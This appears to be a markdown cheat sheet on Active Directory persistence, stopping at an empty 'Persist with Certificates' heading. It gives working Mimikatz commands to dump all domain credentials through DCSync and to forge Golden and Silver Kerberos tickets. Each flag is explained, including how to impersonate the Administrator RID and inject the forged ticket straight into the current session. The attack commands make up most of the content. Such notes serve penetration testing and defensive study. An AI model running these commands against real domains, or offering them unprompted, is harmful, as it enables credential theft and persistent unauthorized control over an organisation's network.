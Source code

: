 
# #Persist with Credentials:
### The goal then is to persist with near-privileged credentials.
  - **Credentials that have local administrator rights on several machines**
  - **Service accounts that have delegation permissions**
  - **Accounts used for privileged AD services**

### there are many ways to dump credentials or hijack sessions.
for example:

## DCSync:
```
  - mimikatz # lsadump::dcsync /domain:<Domain-name> /all
```

# #Persist with Tickets:
  - **Golden Tickets**
  - **Silver Tickets**

### Generate Golden Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/krbtgt** -The NTLM hash of the KRBTGT account.
  - **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
  - **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
 - after executing this, the ticket is loaded into memory and we can access privileged resources in the domain

### Generate Silver Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/target** - The hostname of our target server. Let's do SERVERname.sub.DomainName.com, but it can be any domain-joined host.
  - **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of SERVERname$. The $ indicates that it is a machine account.
  - **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
- after executing this, the ticket is loaded into memory and we can access a specific privileged resources in the domain


# #Persist with Certificates:
